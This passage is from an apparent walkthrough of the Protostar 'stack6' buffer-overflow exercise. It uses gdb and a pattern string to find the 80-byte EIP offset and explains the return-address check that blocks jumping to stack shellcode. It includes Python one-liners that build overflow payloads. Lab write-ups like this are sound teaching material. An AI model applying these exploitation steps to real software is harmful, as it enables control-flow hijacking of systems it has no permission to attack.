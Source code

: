 Now we know our input starts from the address "0xbffffc4c", we can see where the return address limitation comes in to play. From first glance, the restriction checks to see if our return address (EIP overwrite) equals "0xbf000000" after performing an 'and' calculation against the address with the value "0xbf000000". Without getting into this instruction too much, if we 'and' out input start address and the value specified, we should get the result "0xbf000000". Ultimately, this means we can't overwrite the EIP value with an address on our stack.  In short, we can't just jump to our own shellcode - sadface. Even if the stack is executable (which I haven't confirmed at this point), we wouldn't be  able to just jump to it and run the code.

We can check that this is the case by gaining control of the process EIP and attempting to return to a position in our buffer to see what happens. By using a long, easily recognisable string as input, we can see the value that overwrites our EIP and causes a crash. Giving us our offset:

```
(gdb) c
Continuing.
got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

As  our EIP was overwritten with "0x55555555" we failed to continue and the program crashed. "0x55" in ASCII is "U", so we can get our offset with the following logic:

- U is the 21's letter of the alphabet
- Our payload had 4 of each letter
- Then we minus 4 to get the offset BEFORE we write the U's
- 21 * 4 = 84 - 4 = 80

This means we should have control of EIP with the following payload:

```
python -c 'print "A"*80 + "BBBB"' > /tmp/stack6
```

```
(gdb) r < /tmp/stack6
Starting program: /opt/protostar/bin/stack6 < /tmp/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Excellent! Now let's just replace this value with an address within our payload and see what happens (this is where we should trigger the "and/cmp" instruction:

```
python -c 'print "A"*80 + "\x54\xfc\xff\xbf"' > /tmp/stack6
```

If we break on the 'and' instruction and inspect our EAX register, we see the following:

```
(gdb) b *getpath+52
```
